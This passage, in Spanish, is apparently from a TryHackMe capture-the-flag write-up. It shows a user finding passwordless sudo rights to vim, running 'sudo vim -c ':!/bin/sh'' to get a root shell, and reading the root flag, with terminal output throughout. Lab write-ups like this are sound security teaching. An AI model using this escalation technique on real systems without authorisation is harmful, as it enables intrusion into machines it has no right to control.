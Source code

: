 Podemos ejecutar como el usuario root sin proporcionar contraseña este comando 

```shell
mitch@Machine:/$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
mitch@Machine:/$ 
```

Si nos vamos a Gtfobins podemos ver como aprovecharnos de esto para ser root

- [Gtfobins](https://gtfobins.github.io/gtfobins/vim/#suid)

## Root

```shell
mitch@Machine:/$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
mitch@Machine:/$ sudo vim -c ':!/bin/sh'

# whoami                            
root
# id
uid=0(root) gid=0(root) groups=0(root)
#
```

## Root.txt
Pues ya estaria completo puedes contestar las preguntas que te hacen en TryHackMe con todo lo que hemos echo. 

```shell
# cd /root
# ls
root.txt
# cat root.txt  
W3ll d0n3. You made it!
#
```
